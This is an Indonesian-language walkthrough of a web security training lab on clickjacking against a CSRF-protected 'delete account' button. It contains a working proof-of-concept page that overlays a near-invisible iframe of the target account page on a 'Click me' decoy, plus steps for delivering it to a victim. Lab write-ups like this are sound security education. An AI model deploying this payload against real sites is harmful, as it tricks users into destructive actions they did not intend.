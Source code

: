 # Clickjacking Dasar dengan Proteksi Token CSRF | 2 Jan 2022
## Latar Belakang
Lab ini berisi fungsionalitas login dan tombol hapus akun yang dilindungi oleh token CSRF. Seorang pengguna akan mengklik elemen yang menampilkan kata "click" di situs web umpan.

Untuk menyelesaikan lab ini, buat beberapa HTML yang membingkai halaman akun dan menipu pengguna agar menghapus akun mereka. Lab ini dianggap selesai ketika akun dihapus.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut: `wiener:peter`

## Eksploitasi
### Login sebagai pengguna wiener:
![Login Screenshot](path_to_login_image)

Di sini, kita dapat memperbarui email dan menghapus akun.

### Lihat sumber halaman:
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class='button' type='submit'> Update email </button>
    </form>
    <form id=delete-account-form action="/my-account/delete" method="POST">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```
Mereka menggunakan token CSRF untuk mencoba mencegah serangan CSRF.

### Membangun POC Clickjacking
Sekarang, kita akan membangun `<iframe>` tersembunyi dan teks clickbait:

```html
<html>
    <head>
        <title>Basic clickjacking with CSRF token protection</title>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:495px;
                left:60px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0a2f006904c03654c0f5634d009f00aa.web-security-academy.net/my-account"></iframe>
    </body>
</html>
```

### Hosting dan Pengiriman ke Korban
Setelah HTML POC dibuat, host di server exploit dan kirimkan ke korban.

![Exploit Server Screenshot](path_to_exploit_server_image)

### Titik Endpoint dari Eksploitasi
Endpoint eksploitasi utama terdapat pada form hapus akun yang menerima permintaan POST ke `/my-account/delete` dengan token CSRF yang valid. Dengan memanipulasi `<iframe>` sehingga permintaan hapus akun dikirim tanpa sepengetahuan pengguna, exploit ini berhasil melewati perlindungan token CSRF karena iframe tersembunyi memiliki tingkat opasitas yang hampir tidak terlihat, memungkinkan serangan clickjacking berhasil.

